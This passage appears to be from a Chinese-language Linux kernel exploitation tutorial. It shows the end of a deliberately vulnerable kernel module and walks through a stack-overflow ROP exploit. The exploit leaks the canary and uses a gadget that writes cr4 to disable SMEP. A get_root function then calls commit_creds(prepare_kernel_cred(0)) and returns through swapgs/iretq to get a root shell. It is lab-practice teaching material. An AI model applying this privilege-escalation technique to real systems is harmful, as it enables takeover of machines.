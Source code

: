 ```C
		return -1;
	}

	printk(KERN_INFO "[i] <Major, Minor>: <%d, %d>\n", MAJOR(first), MINOR(first));
	return 0;
}
 
static void __exit vuln_exit(void) /* Destructor */
{
	unregister_chrdev_region(first, 3);
	printk(KERN_INFO "Module vuln unregistered");
}
 
module_init(vuln_init);
module_exit(vuln_exit);
 
MODULE_LICENSE("GPL");
MODULE_AUTHOR("blackndoor");
MODULE_DESCRIPTION("Module vuln overflow");
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>原模块[链接是这个](https://github.com/black-bunny/LinKern-x86_64-bypass-SMEP-KASLR-kptr_restric)，只是我编译内核的时候开启了栈保护，懒得重新编译也懒得nop，就直接改了下源代码泄漏canary绕过就好了。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>看完模块源码之后可以发现很简单，是一个很单纯的栈溢出，我们也主要是为了练习ROP利用技巧，能看到这的大佬基本也已经会了用户空间栈溢出的ROP了，所以直接放最终的ROP链，可以直接理解（获取ROP指令用ROPgadget就行，二进制文件用kernel目录下的vmlinux，其他都一样。我直接ROP了所有的指令下来方便直接grep：**ROPgadget --binary vmlinux > ~/Desktop/file/gadget4.txt**），gadget文件我也上传了（再提一句一开始因为vmlinux文件太大，虚拟机分配的内存小，一抓指令就被kill 2333）。另外在64-bit下的kernel中有一点需要注意一下：</font></br>

> **在64bit的系统中执行iret指令前需要执行swapgs指令**。该指令通过用一个MSR中的值交换GS寄存器的内容。在进入内核空间例行程序(例如系统调用)时会执行swapgs指令以获取指向内核数据结构的指针，因此在返回用户空间之前需要一个匹配的swapgs。
>
> ————转自[w0lfzhang's blog](https://www.w0lfzhang.com/2017/08/06/Linux-Kernel-ROP/)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>ROP链如下：</font></br>

![ROP链](https://raw.githubusercontent.com/fangdada/kernelPWN/master/how2kernel/03stack_ROP/ROP.png)

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用mov_cr4_pop_ret的指令关闭smep保护后就可以用get_root这个用户空间的函数进行getshell了，指令与函数内容如下：</font></br>

```assembly
#mov_cr4_pop_ret:
mov cr4,rdi
pop rbp
ret
```

```C
void get_root()
{
	commit_creds(prepare_kernel_cred(0));
	asm("swapgs");
	asm("movq %0,%%rsp"::"r"(&tf));
	asm("iretq");
}
```
